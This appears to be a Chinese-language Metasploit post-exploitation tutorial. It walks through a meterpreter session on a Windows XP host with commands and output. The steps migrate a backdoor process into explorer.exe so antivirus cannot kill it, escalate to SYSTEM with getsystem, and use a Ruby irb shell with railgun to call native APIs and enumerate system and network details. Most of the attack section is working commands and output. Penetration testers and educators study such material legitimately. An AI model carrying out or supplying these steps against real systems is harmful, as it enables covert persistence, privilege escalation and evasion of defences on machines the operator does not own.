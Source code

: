 ### 执行后门进程内存空间转移

```shell
meterpreter > migrate 1968
[*] Migrating from 1532 to 1968...
[*] Migration completed successfully.
```

从上面得知，进程转移成功，后门进程已经成功的从1532转移到了explorer.exe的1968的进程中去了，由于explorer.exe是windows桌面进程，所以无法查杀。原来的1532的后门进程也没有了，此时可以再次使用getpid命令进程进程id查看。

### 查看后门进程转移后的进程ID

```shell
meterpreter > getpid
Current pid: 1968
```

这里要注意的是，有时候使用`migrate`进程进程转移时并不能成功，此时多数情况是当前shell的用户没有权限导致，可以使用`getsystem`获取管理员权限然后再次执行进程转移。

## 调用目标主机本地API

meterpreter中通过irb进入ruby的交互环境，调用目标系统本地API使用的是**railgun**组件。调用目标系统API运行，这个功能有很大的扩展性，相当于在目标系统上编写代码并运行，可以做的事情由你自己发挥。

### 管理员权限获取

```shell
# 查看当前用户
meterpreter > getuid
Server username: EVAN\wangjun
# 获取系统用户权限
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
# 再次查看当前用户，已变更
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 进入ruby交互环境

```shell
# 在meterpreter的shell中使用命令irb进入ruby交互环境
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>>
```

### 使用railgun组件

```shell
# 列出可用的dll
>> client.railgun.known_dll_names
=> ["kernel32", "ntdll", "user32", "ws2_32", "iphlpapi", "advapi32", "shell32", "netapi32", "crypt32", "wlanapi", "wldap32", "version", "psapi"]
# 获取目标系统信息
>> client.sys.config.sysinfo
=> {"Computer"=>"EVAN", "OS"=>"Windows XP (Build 2600, Service Pack 3).", "Architecture"=>"x86", "System Language"=>"zh_CN", "Domain"=>"WORKGROUP", "Logged On Users"=>2}
# 获取当前用户id
>> client.sys.config.getuid
=> "NT AUTHORITY\\SYSTEM"
# 获取所有网卡信息
>> init = client.net.config.interfaces
>> init.each { |x| puts x.pretty }

```